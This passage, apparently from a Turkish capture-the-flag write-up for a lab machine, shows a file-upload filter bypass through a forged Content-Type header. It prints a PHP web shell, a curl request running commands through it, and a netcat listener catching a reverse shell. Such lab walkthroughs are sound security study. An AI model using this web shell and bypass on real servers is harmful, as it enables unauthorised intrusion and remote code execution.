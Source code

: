 Eğer **`Content-Type`** başlığını `application/x-php` olarak değiştirirsem, sunucu bunu engelliyor (dosya adını tekrar `.png` olarak değiştirsem bile).

![Pasted image 20250206181433.png](/img/user/Pasted%20image%2020250206181433.png)

Content'i değiştirmenin bir önemi yok gibi görünüyor:

![Pasted image 20250206181531.png](/img/user/Pasted%20image%2020250206181531.png)

```
<?php system($_REQUEST["cmd"]); ?>
```

### Upload

Filtre testi sonuçlarına göre, bir dosyayı `.php` olarak adlandırıp PHP kodu içerebileceğim gibi görünüyor, yeter ki **Content-Type** başlığını geçerli bir görsele değiştirsem.

![Pasted image 20250206181640.png](/img/user/Pasted%20image%2020250206181640.png)

Bunu Repeater'dan göndereceğim (ya da tekrar form üzerinden shell’i yükleyebilir ve Proxy kullanarak isteği yakalayıp değiştirebilirim).

**`/torrent/upload`** adresini kontrol ettiğimde, orada bir PHP dosyası buldum (bir şeyin SHA1 hash’iyle adlandırılmış gibi görünüyor).

![Pasted image 20250206181725.png](/img/user/Pasted%20image%2020250206181725.png)

Ve çalıştırma sağlar:

```
root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![Pasted image 20250206184052.png](/img/user/Pasted%20image%2020250206184052.png)
### Shell

Bir shell almak için, nc'yi başlatacağım ve cmd'yi reverse shell olarak geçireceğim:

![Pasted image 20250206184202.png](/img/user/Pasted%20image%2020250206184202.png)

Nc'de:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:33054.
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
